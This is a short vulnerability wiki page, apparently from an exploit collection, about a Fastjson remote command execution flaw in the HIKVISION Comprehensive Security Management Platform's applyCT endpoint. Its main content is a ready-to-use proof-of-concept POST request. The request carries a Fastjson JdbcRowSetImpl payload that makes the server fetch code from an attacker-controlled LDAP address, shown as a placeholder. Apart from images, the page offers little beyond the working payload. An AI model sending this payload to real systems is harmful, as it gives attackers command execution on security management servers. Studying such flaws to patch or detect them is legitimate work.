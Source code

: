 # HIKVISION Comprehensive Security Management Platform applyCT Fastjson Remote Command Execution Vulnerability

## Vulnerability Description

HIKVISION comprehensive security management platform applyCT has a low-version Fastjson remote command execution vulnerability. An attacker can execute any command to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Comprehensive Security Management Platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807.png)

Verify POC

```javascript
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661183408780-ae3f95b1-7c3b-42d9-b03a-f2f314309543.png)